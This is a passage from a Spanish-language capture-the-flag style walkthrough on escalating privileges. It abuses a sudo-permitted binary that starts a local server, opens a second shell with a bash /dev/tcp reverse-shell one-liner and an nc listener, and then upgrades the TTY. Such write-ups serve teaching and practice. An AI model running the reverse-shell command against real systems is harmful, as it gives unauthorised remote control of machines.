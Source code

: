 ```
Netid          State           Recv-Q          Send-Q                     Local Address:Port                     Peer Address:Port          Process          
udp            UNCONN          0               0                                0.0.0.0:68                            0.0.0.0:*                              
tcp            LISTEN          0               128                            127.0.0.1:21                            0.0.0.0:*                              
tcp            LISTEN          0               80                             127.0.0.1:3306                          0.0.0.0:*                              
tcp            LISTEN          0               511                              0.0.0.0:80                            0.0.0.0:*                              
tcp            LISTEN          0               511                                 [::]:80                               [::]:*
```

Vemos que no lo encontramos, por lo que deducimos que si nosotros ejecutamos dicho binario puede ser que se habra un servidor local desde la carpeta en la que me encuentre, vamos a probar lo siguiente.

```shell
cd /tmp
touch test.py
sudo /usr/bin/doc
```

Info:

```
Server ready at http://localhost:7890/
Server commands: [b]rowser, [q]uit
server>
```

Veremos que se nos despliega el servidor en dicho puerto, pero nos mete en un meterpreter, vamos a salirnos y volveremos a ejecutarlo pero antes recibiendo una segunda shell en otra terminal.

```shell
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1 &
```

Antes de ejecutarlo nos pondremos a la escucha.

```shell
nc -lvnp <PORT>
```

Ahora si lo ejecutamos veremos que obtuvimos una segunda shell, vamos a sanitizarla de nuevo.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```
